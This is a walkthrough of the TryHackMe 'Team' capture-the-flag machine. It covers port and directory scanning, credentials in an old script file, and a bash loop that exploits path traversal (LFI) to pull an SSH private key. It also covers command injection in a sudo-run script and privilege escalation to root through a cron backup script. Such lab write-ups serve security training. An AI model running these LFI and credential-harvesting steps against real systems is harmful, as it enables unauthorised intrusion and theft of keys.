# [Team](https://tryhackme.com/room/teamcw) TryHackMe Writeup


## __First Stage : Enumeration__

As usual we start with nmap scan to find open ports.

```
# Nmap 7.91 scan initiated Mon Mar  8 19:59:25 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.65.7
Nmap scan report for 10.10.65.7
Host is up, received syn-ack (0.15s latency).
Scanned at 2021-03-08 19:59:26 IST for 225s
Not shown: 65532 filtered ports
Reason: 65532 no-responses
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRK/xFh/H4lC7shWUUvK9lKxd3VO2OwfsC8LjFEU2CnEUrbVCnzx8jiVp5gO+CVAj63+GXkbIuXpynlQ/4j1dXdVUz/yAZ96cHiCNo6S5ThONoG2g2ObJSviCX2wBXhUJEzW07mRdtx4nesr6XWMj9hwIlSfSBS2iPEiqHfGrjp14NjG6Xmq5hxZh5Iq3dBrOd/ZZKjGsHe+RElAMzIwRK5NwFlE7zt7ZiANrFSy4YD4zerNSyEnjPdnE6/ArBmqOFtsWKZ2p/Wc0oLOP7d6YBwQyZ9yQNVGYS9gDIGZyQCYsMDVJf7jNvRp/3Ru53FMRcsYm5+ItIrgrx5GbpA+LR
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBM4d9TCz3FkEBEJ1VMjOsCrxsbS3YGb7mu9WgtnaFPZs2eG4ssCWz9nWeLolFgvHyT5WxRT0SFSv3vCZCtN86I=
|   256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHUxjoul7JvmqQMtGOuadBwi2mBVCdXhJjoG5x+l+uQn
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar  8 20:03:11 2021 -- 1 IP address (1 host up) scanned in 226.37 seconds
```

Hence open ports are :

* 22
* 80

So let's visit port 80.




So seeing the source code we get that we have to add **team.thm** to our hosts file.




So going to http://team.thm .


So My next step was gobuster.


```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===========================================================
[+] Url:            http://team.thm/
[+] Threads:        30
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js,txt,html,php,zip,json
[+] Timeout:        10s
===========================================================
2021/03/08 20:45:17 Starting gobuster
===========================================================
/images (Status: 301)
/scripts (Status: 301)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
/index.html (Status: 200)
===========================================================
2021/03/08 21:20:15 Finished
===========================================================
```

So after going through many rabbit holes , I got a hint from a friend saying to look at the scripts directory **deeply**. 

Hence I did a gobuster on scripts dir.And got a interesting file.

```
===========================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===========================================================
[+] Url:            http://team.thm/scripts/
[+] Threads:        30
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     json,js,txt,html,php,zip
[+] Timeout:        10s
===========================================================
2021/03/09 14:50:52 Starting gobuster
===========================================================
/script.txt (Status: 200)
````

So going to that file .



So we can see that there is an old script which contains username and password , but it's extension is different. Hence I tried some extensions and one extension which worked was **.old**.




Hence using this I got into ftp.



So going to workshare directory we see that there is a text file called New_site.txt.




So adding dev.team.thm to the hosts file we visit it.




## __Second Stage : Initial Access as Dale__


Hence clicking that link gives us the possibility of LFI.



So I tried /etc/passwd



So from the txt file we got we can see that the id_rsa is in a config file but we don't know what file . Hence I searched for interesting LFI files and got a list of files.

>https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi-linux-list

Save the list as paths.txt. And I created a script to automate the lfi process. 

```bash
#!/bin/bash
filename='paths.txt'

while read line  
do 
echo "[+] Trying $line"
curl http://dev.team.thm/script.php\?page\=../../../../../../../../$line > result.txt
if [[ -n ` grep "OPENSSH" result.txt`   ]]
then
        break
else
        continue
fi

done < $filename
```

After running the script for sometime , it stops at a particular file. 




So if we open the result.txt we get the id_rsa.




Hence we can save it and ssh into the machine as dale.





## __Second Stage : dale to gyles__


Since we have sudo permission let's check what is **admin_checks** .

It is a bash script

```shell
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

After going through some of the rabbit holes I got to know the way to exploit this. The error variable is being executed.

Hence to exploit this :




## __Third Stage : Gyles to root__

Since gyles was in admin grp I did a search.




So I downloaded pspy and ran it in the box.




So I edited the **main_backup.sh** like this.




And go root shell back!


